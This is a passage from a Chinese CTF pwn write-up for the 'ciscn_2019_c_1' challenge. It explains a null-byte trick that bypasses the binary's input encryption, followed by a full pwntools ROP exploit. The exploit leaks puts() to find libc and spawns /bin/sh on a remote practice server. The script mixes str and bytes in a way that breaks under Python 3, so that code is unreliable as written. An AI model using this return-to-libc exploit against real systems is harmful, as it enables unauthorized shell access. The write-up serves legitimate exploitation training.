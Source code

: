 不过我们可以发现该函数是使用的`strlen()`函数来判断输入的长度，遇到`'\x00'`时会终止，而`gets()`函数遇到`'\x00'`并不会截断，因此我们可以将payload开头的padding的第一个字符置为`'\x00'`，这样我们所输入的payload就不会被程序改变

接下来考虑构造rop链getshell，基本上已经是固定套路了，**首先用`puts()`函数泄漏出`puts()`的真实地址，同时由于题目没有给出libc文件，故接下来我们考虑用`LibcSearcher`获取libc，然后libc的基址、`/bin/sh`和`system()`的地址就都出来了，配合上csu中的gadget即可getshell**

故构造exp如下：

```
from pwn import *
from LibcSearcher import *

e = ELF('./ciscn_2019_c_1')
offset = 0x50
enc_addr = 0x4009a0
pop_rdi = 0x400c83
retn = 0x400c84

payload1 = '\x00' + b'A'*(offset-1) + p64(0xdeafbeef) + p64(retn) + p64(retn) + p64(retn) + p64(retn) + p64(retn) + p64(retn) + p64(pop_rdi) + p64(e.got['puts']) + p64(e.plt['puts']) + p64(enc_addr)

p = remote('node3.buuoj.cn',27832)
p.sendline(b'1')
p.recv()
p.sendline(payload1)
p.recvuntil('Ciphertext\n\n')
s = p.recv(6)
puts_addr = u64(s.ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')
payload2 = '\x00' + b'A'*(offset-1) + p64(0xdeadbeef) + p64(retn) + p64(pop_rdi) + p64(sh_addr) + p64(sys_addr)
p.sendline(payload2)
p.interactive() 
```

运行我们的exp，成功getshell
